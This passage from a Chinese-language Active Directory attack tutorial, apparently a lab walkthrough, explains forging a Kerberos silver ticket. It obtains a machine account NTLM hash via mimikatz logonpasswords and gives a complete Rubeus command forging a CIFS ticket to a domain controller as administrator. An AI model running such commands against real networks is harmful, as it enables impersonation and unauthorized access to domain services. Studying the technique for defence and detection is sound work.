 TGS 只能对应一个服务，服务主体以前不验证 PAC，但是现在微软身份验证已经更新，必须要指定存在的用户名了，不过这个用户即使之前没有权限访问这个服务也能通过认证，这一点还是和以前一样，现在再演示一下

通过 logonpasswords 可以拿到机器账户的 NTLM hash，带有$符号的是机器的账户我们制作的白银票据就是需要机器的密钥，通过这个密钥可以伪造各种票据到这台机器上的任意服务

[![](assets/1707953845-8a5d72782954f6d29007338e660a7581.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040648-18008eb0-c462-1.png)

这台 ad 是域控，开放着 cifs（445 的文件共享）服务和 ldap 服务，这里我伪造的 cifs，也就是下面的/service 参数；/rc4 填入刚刚拿到的 ntlm hash 就可以了；/sid 还是域的 sid，这个之前已经拿到了

```plain
Rubeus.exe silver /service:cifs/ad.endlessparadox.com /rc4:c783a03c8f07f1d75c2b741cd93fe8c0 /user:administrator /domain:ad.endlessparadox.com /sid:S-1-5-21-3455334608-937969980-1598144099 /nowrap
```

[![](assets/1707953845-85df25acfdf4b9fd28f4811f0d09cba3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040704-21ac11a0-c462-1.png)
